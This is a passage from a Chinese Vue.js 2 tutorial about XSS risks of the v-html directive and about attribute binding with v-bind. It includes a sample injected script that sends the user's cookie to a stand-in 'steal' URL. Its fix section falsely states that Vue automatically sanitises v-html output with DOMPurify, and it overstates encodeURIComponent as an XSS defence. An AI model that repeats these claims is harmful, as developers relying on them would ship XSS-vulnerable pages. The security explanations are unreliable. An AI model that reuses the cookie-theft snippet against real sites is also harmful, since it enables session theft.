 在这个例子中，`commentContent` 的值来自后端，并且没有经过任何处理直接使用 `v-html` 展示在页面上。

攻击者可以在评论中注入恶意脚本，例如：

```vue
<script>
  window.location.href='https://www.example.com/steal?cookie='+document.cookie;
</script>
```

在这种情况下，当用户浏览该页面时，恶意脚本会被执行，将用户的 cookie 数据发送到攻击者指定的 URL。这样，攻击者就可以获取到用户的敏感信息。

**为了防止 XSS 攻击，应该始终对插入到 ****`v-html`**** 中的内容进行合适的过滤和转义处理。可以使用安全的 HTML 渲染库（如 DOMPurify）来过滤掉恶意的 HTML 标签和事件，或者使用 Vue 提供的文本插值方式（如双大括号 ****`{{ }}`****）来展示普通文本而非 HTML 内容。**

### 问题解决

> 📌为了避免v-html引起的XSS攻击问题，Vue提供了一种内置的安全机制来对插入到DOM中的HTML进行过滤，并确保其中不包含任何不安全的代码。具体来说，Vue.js会使用DOMPurify库来对v-html输出的HTML内容进行过滤，除去其中的JS脚本和其他不安全的HTML标签，从而防止XSS攻击。

> 📌除了使用v-html指令外，还有其他方法可以避免XSS攻击。例如，可以使用Vue.js提供的computed属性来计算需要渲染到页面上的HTML代码，从而确保只有受信任的HTML代码被渲染。此外，也可以使用encodeURIComponent()函数对插入到页面中的数据进行编码，以防止特殊字符被解释为HTML代码。

```text
encodeURIComponent()是JavaScript中一个用于对字符串进行编码的函数，它将字符串中的特殊字符进行编码，以便在URL或HTML属性中使用。具体来说，encodeURIComponent()会对所有非字母数字字符进行编码，包括ASCII字符集中除了字母数字字符外的所有字符，以及Unicode字符集中的所有字符。 

使用encodeURIComponent()函数可以避免一些安全隐患，比如XSS攻击，因为它会确保在将数据插入到URL或HTML属性中时，不会将特殊字符解释为代码，从而防止恶意代码执行。

以下是一个使用encodeURIComponent()函数的示例：


const myString = 'Hello, world!';
const encodedString = encodeURIComponent(myString);
console.log(encodedString); // "Hello%2C%20world%21"


在上面的例子中，我们首先定义了一个名为myString的字符串变量，该字符串中包含一些特殊字符。然后，我们使用encodeURIComponent()函数对该字符串进行编码，并将编码后的字符串存储在名为encodedString的变量中。最后，我们将编码后的字符串输出到控制台中，可以看到所有特殊字符都被编码成了相应的字符串表示形式，例如“%2C”代表逗号，"%20"代表空格，"!"代表感叹号等。

总之，在编写Web应用程序时，我们应该始终保持警觉，并确保对所有需要插入到URL或HTML属性中的数据进行编码，以防止安全漏洞和攻击。
```

## [Attribute](https://v2.cn.vuejs.org/v2/guide/syntax.html#Attribute "Attribute")

> 📌**Mustache 语法不能作用在 HTML attribute 上，遇到这种情况应该使用 **[**v-bind**](https://v2.cn.vuejs.org/v2/api/#v-bind "v-bind")[\*\* 指令\*\*​](https://v2.cn.vuejs.org/v2/api/#v-bind " 指令")**：**

```vue
<div v-bind:id="dynamicId"></div>
```

对于布尔 attribute (它们只要存在就意味着值为 `true`)，`v-bind` 工作起来略有不同，在这个例子中：

```vue
<button v-bind:disabled="isButtonDisabled">Button</button>
```
